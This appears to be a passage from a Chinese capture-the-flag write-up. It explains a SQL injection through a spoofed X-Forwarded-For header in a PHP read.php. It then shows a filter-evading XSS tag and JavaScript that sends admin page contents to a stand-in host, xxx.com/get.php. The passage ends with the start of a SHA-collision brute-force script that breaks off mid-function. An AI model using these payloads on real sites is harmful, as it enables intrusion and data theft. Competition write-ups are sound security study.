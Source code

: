 read.php中get_ip有洞
```
$ip=get_client_ip();

function get_client_ip(){
    if (getenv("HTTP_CLIENT_IP") && strcasecmp(getenv("HTTP_CLIENT_IP"), "unknown")){
        $ip = getenv("HTTP_CLIENT_IP");
    }else if (getenv("HTTP_X_FORWARDED_FOR") && strcasecmp(getenv("HTTP_X_FORWARDED_FOR"), "unknown")){
        $ip = getenv("HTTP_X_FORWARDED_FOR");
    }else if (getenv("REMOTE_ADDR") && strcasecmp(getenv("REMOTE_ADDR"), "unknown")){
        $ip = getenv("REMOTE_ADDR");
    }else if (isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], "unknown")){
        $ip = $_SERVER['REMOTE_ADDR'];
    }else{
            $ip = "unknown";
    }
    return($ip);
}

$sql = "UPDATE `test`.`message` SET `is_read` = '1', `operation_log_ip` ='".
    $ip."', `operation_log_ua` ='".ua."' WHERE `message`.`index` = '".$_GET['index']."';";
query($sql);
```
注入后发现，并不能破解密码，那么还得xss

```
<scrdataipt src//xxx.com/xss.js.php></scrdataipt>
```
js很随意了，可以这样写
```
xhr=new XMLHttpRequest();
xhr.open("POST","http://104.199.137.82/admin/read.php?index=<?=$i?>",false);
xhr.setRequestHeader("X-Forwarded-For","<?=$p?>");
xhr.send();
r=xhr.responseText;
xhr.open("POST","http://xxx.com/get.php",true);
xhr.send("v="+escape(escape(r)))
```

有个问题是如果管理员看到你了之后就会设为isread，那么就不能注入了。。那么脚本就是必要的了。


# misc

## hsab （sha碰撞）

题目有两个坑，首先是要碰撞出一个前20为0，和所给值相同的字符串，队友写了个脚本。

```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

from pwn import *
import hashlib
import re
import itertools
import string

rand_string = string.ascii_letters + "0123456789"
e2 = itertools.permutations(rand_string, 10)

def fuck_1(s):
	while True:
```